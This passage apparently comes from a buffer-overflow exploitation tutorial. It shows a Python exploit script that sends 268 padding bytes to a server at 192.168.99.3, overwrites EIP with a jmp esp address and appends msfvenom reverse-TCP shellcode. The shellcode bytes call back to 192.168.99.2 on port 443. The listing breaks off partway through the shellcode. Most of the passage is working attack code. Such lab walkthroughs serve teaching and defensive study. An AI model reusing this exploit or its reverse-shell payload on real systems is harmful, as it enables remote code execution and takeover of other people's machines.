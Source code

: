 ![msfvenon generates shellcode for a tcp reverse shell](../../../.gitbook/assets/image%20%28794%29.png)

Add it to the python exploit skeleton and replace the `RETN` on line 11 with the memory address containing `jmp esp`, which is `7798BD1B` \(as usual, mind the endianness\) in my case:

{% code title="exploit.py" %}
```python
import socket, sys

# connect to a socket on a vulnerable server
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("192.168.99.3", 10000))

# send A's
buf = b"A"*268

# overwrite EIP with address containing jmp esp instructions (inside ntdll.dll in my case)
buf += b"\x1b\xbd\x98\x77"

# shellcode
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
buf += b"\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
buf += b"\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x63\x02\x68"
buf += b"\x02\x00\x01\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
```